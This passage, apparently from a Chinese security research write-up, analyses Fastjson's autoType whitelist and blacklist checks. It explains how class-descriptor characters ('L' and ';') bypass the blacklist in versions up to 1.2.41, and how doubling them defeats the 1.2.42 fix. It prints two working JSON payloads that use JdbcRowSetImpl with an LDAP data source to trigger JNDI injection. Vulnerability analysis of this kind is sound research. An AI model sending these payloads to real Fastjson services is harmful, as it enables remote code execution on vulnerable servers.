 添加反序列化白名单有3种方法：
1. 使用代码进行添加：`ParserConfig.getGlobalInstance().addAccept(“org.su18.fastjson.,org.javaweb.”)`
2. 加上JVM启动参数：`-Dfastjson.parser.autoTypeAccept=org.su18.fastjson.`
3. 在fastjson.properties中添加：`fastjson.parser.autoTypeAccept=org.su18.fastjson.`

看一下 `checkAutoType()` 的逻辑，如果开启了 autoType，先判断类名是否在白名单中，如果在，就使用 `TypeUtils.loadClass` 加载，然后使用黑名单判断类名的开头，如果匹配就抛出异常。

![](https://oss.javasec.org/images/1616462597114.png)

如果没开启 autoType ，则是先使用黑名单匹配，再使用白名单匹配和加载。最后，如果要反序列化的类和黑白名单都未匹配时，只有开启了 autoType 或者 expectClass 不为空也就是指定了 Class 对象时才会调用 `TypeUtils.loadClass` 加载。

![](https://oss.javasec.org/images/1616463143551.png)

接着跟一下 `loadClass` ，这个类在加载目标类之前为了兼容带有描述符的类名，使用了递归调用来处理描述符中的 `[`、`L`、`;` 字符。

![](https://oss.javasec.org/images/1616463632814.png)

因此就在这个位置出现了逻辑漏洞，攻击者可以使用带有描述符的类绕过黑名单的限制，而在类加载过程中，描述符还会被处理掉。因此，漏洞利用的思路就出来了：需要开启 autoType，使用以上字符来进行黑名单的绕过。

最终的 payload 其实就是在之前的 payload 类名上前后加上`L`和`;`即可：

```json
{
	"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
	"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

### 3. fastjson-1.2.42

在版本 1.2.42 中，fastjson 继续延续了黑白名单的检测模式，但是将黑名单类从白名单修改为使用 HASH 的方式进行对比，这是为了防止安全研究人员根据黑名单中的类进行反向研究，用来对未更新的历史版本进行攻击。同时，作者对之前版本一直存在的使用类描述符绕过黑名单校验的问题尝试进行了修复。

> 影响版本：`1.2.25 <= fastjson <= 1.2.42`
> 描述：一点也不坦诚，学学人家 jackson，到现在还是明文黑名单。而且到目前为止很多类已经被撞出来了。

还是关注 `com.alibaba.fastjson.parser.ParserConfig` 这个类，作者将原本的明文黑名单转为使用了 Hash 黑名单，防止安全人员对其研究。
![](https://oss.javasec.org/images/1616466267011.png)

并且在 checkAutoType 中加入判断，如果类的第一个字符是 `L` 结尾是 `;`，则使用 substring进行了去除。写判断也不好好写，非要写 hash 。
![](https://oss.javasec.org/images/1616466255355.png)

但是这种判断完全是徒劳的，因为在最后处理时是递归处理，因此只要对描述符进行双写即可绕过：

```java
{
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```
